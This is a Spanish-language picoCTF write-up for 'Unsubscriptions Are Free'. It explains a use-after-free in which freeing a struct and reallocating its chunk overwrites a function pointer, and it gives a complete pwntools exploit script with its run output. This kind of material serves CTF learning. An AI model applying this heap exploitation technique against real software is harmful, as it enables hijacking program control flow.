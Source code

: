 # Unsubscriptions Are Free

En este ejercicio nos dan un binario y su código fuente.

```c
checksec
File:     /home/ub1cu0/Desktop/picoCTF/Unsubscriptions_Are_Free/vuln_patched
Arch:     i386
RELRO:      Partial RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        No PIE (0x8048000)
Stripped:   No
```

El programa es un menú con bastantes opciones:

```c
./vuln_patched
Welcome to my stream! ^W^
==========================
(S)ubscribe to my channel
(I)nquire about account deletion
(M)ake an Twixer account
(P)ay for premium membership
(l)eave a message(with or without logging in)
(e)xit
```

La mayoría simplemente imprimen algo y no son relevantes, si miramos el código podemos ver varias zonas críticas en el código:

```c
typedef struct {
	uintptr_t (*whatToDo)();
	char *username;
} cmd;

cmd *user;
```

Aquí se define un `struct` llamado `cmd` con dos campos, ambos punteros.\
El primero (`whatToDo`) es un **puntero a función**, es decir, guarda una dirección a una función que se puede ejecutar.\
El segundo (`username`) es un puntero a una cadena de texto. Luego, declara un puntero `user` de tipo del struct creado anteriormente

```c
void doProcess(cmd* obj) {
	(*obj->whatToDo)();
}
```

La función `doProcess` hace un call a donde apunte el puntero `whatToDo`.

Esto implica que si conseguimos modificar a donde apunte `whatToDo` cada vez que el programa ejecute la función `doProcess` el flujo del programa irá a donde nosotros queramos. Como podemos conseguir modificarlo? Vamos a ver como usa `user` el programa:

```c
int main(){
. . .
	user = (cmd *)malloc(sizeof(user)); // Aquí
. . .
}
```

El programa crea un user en el heap así que nuestro objetivo es el heap. La estructura del heap en ese caso sería que donde apunta user estará el primer argumento del struct, es decir, el puntero que queremos modificar y 4 bytes después estará el parámetro username.

Si miramos mas el código vamos a ver que tenemos el control de 2 cosas importantes:

```c
void leaveMessage(){
	puts("I only read premium member messages but you can ");
	puts("try anyways:");
	char* msg = (char*)malloc(8);
	read(0, msg, 8);
}
```

y

```c
void i(){
	char response;
  	puts("You're leaving already(Y/N)?");
	scanf(" %c", &response);
	if(toupper(response)=='Y'){
		puts("Bye!");
		free(user); // Tenemos control del free
	}else{
		puts("Ok. Get premium membership please!");
	}
}
```

Como podemos ver, la primera función nos permite escribir algo en el heap, así que busca el primer hueco libre y escribe ahí lo que metamos en la variable `msg`.\
En la segunda función, podemos hacer un `free(user)`, y como `user` es de tipo `cmd`, que es un struct de 8 bytes (4 bytes para la dirección de la función y 4 para el username), el programa marcará ese bloque como libre.

Esto significa que, cuando volvamos a usar `malloc(8)` (como ocurre al escribir en `msg`), nos dará ese mismo bloque de nuevo. Entonces, lo que escribamos sobrescribirá tanto el puntero a función como el puntero al nombre de usuario dentro del struct `user`.

Ahora que tenemos control sobre esos 8 bytes, podemos redirigir el flujo del programa a donde queramos. Si echamos un ojo al binario, vemos que hay una función llamada `hahaexploitgobrrr` que imprime la flag:

```c
void hahaexploitgobrrr(){
 	char buf[FLAG_BUFFER];
 	FILE *f = fopen("flag.txt","r");
 	fgets(buf,FLAG_BUFFER,f);
 	fprintf(stdout,"%s\n",buf);
 	fflush(stdout);
}
```

Así que con eso ya estamos listos para hacer el exploit:

```python
#!/usr/bin/env python3

from pwn import *
import sys

exe = ELF("./vuln_patched")

context.binary = exe
context.terminal = ['kitty']
gdb_script = '''
b doProcess
'''

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.GDB:
            gdb.attach(r, gdbscript=gdb_script)
        return r
    return remote("mercury.picoctf.net", 61817)

def main():
    io = conn()
    
    io.sendlineafter(b'(e)xit\n' , b's')
    win_addr = int(io.recvline().decode().strip().split('...')[1], 16)
    log.success(f'Dirección Win: {hex(win_addr)}')
    
    io.sendline(b'i')
    io.recvline()
    io.sendlineafter(b"You're leaving already(Y/N)?\n" , b'Y')
    
    io.sendlineafter(b'(e)xit\n' , b'L')
    io.sendlineafter(b':', p32(win_addr))
    
    io.interactive()

if __name__ == "__main__":
    main()

```

```c
python solve.py       

[*] '/home/ub1cu0/Desktop/picoCTF/Unsubscriptions_Are_Free/vuln_patched'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    Stripped:   No
[+] Opening connection to mercury.picoctf.net on port 61817: Done
[+] Dirección Win: 0x80487d6
[*] Switching to interactive mode

picoCTF{SECRET}
```
